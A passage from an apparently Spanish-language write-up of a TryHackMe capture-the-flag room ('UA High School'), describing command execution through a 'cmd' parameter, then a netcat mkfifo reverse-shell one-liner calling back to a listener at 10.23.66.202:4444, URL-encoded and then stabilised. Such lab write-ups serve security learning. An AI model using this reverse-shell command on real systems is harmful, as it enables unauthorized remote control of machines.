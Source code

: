 Parece que tenemos ejecución de comandos con el parámetro **cmd** pero este nos devuelve el contenido en base64.

![alt text](/assets/img/writeups/tryhackme/uahighschool/image-1.png)

Sabiendo esto vamos directamente a por una shell reversa.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.66.202 4444 >/tmp/f
```

Usaremos una nc mkinfo y la codificaremos en URL.

![alt text](/assets/img/writeups/tryhackme/uahighschool/image-2.png)

Ahora podemos estabilizar la shell.

![alt text](/assets/img/writeups/tryhackme/uahighschool/image-3.png)

## Explorando el sistema
